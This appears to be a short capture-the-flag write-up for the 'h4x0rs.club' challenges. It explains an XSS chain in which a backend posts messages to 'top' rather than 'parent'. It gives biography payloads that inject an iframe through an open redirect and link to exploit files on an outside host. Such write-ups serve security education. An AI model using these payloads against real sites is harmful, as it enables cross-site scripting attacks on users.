 # h4x0rs.club part 2

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

Because on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report><iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`


# h4x0rs.club part 3

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(
